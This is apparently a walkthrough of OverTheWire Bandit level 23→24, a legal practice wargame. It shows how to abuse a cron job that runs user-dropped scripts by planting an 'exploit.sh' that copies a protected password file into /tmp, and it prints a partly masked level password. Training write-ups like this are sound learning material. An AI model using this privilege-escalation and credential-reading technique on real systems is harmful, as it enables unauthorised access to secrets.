

# Bandit Level 23 → Level 24

## Level Goal / Objective

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

🔗 https://overthewire.org/wargames/bandit/bandit23.html

## Commands You May Need

```text
cron , crontab , crontab -l , ls , cat , mkdir , echo , cp
```

## Concept Focus

* Exploiting cron job execution paths
* Understanding file ownership checks
* Writing and executing scripts in controlled directories

## Approach

### 1. Connect to the Level

Log in via SSH using the credentials from the previous level.

---

### 2. Identify the Cron Job

Inspect the cron directory:

```bash
ls /etc/cron.d/
cat /etc/cron.d/cronjob_bandit24
```

---

### 3. Analyze the Script

View the script being executed:

```bash
cat /usr/bin/cronjob_bandit24.sh
```

The script:
- Executes files from `/var/spool/bandit24/foo`
- Only runs files owned by `bandit23`
- Deletes them after execution

---

### 4. Create an Exploit Script

Create a temporary working directory and a script that copies the next level’s password to a readable location:

```bash
mktemp -d
cd <temp_dir>
```

Create the script:

```bash
echo 'cat /etc/bandit_pass/bandit24 > /tmp/bandit24-pass' > exploit.sh
chmod +x exploit.sh
```

---

### 5. Deploy the Script

Move the script into the execution directory:

```bash
cp exploit.sh /var/spool/bandit24/foo/
```

Wait for the cron job to execute.

---

### 6. Retrieve the Password

After execution, read the output file:

```bash
cat /tmp/bandit24-pass
```

---

## Walkthrough (Screenshots)



---

## Password for Level 24

```text
gb8KRRCs...Zbf3G8
```

---

## Key Takeaways

* Cron jobs that execute user-controlled scripts can be exploited
* File ownership checks can be bypassed if you control the file
* Temporary directories are useful for staging exploits
* Always look for automated execution paths in privilege escalation scenarios
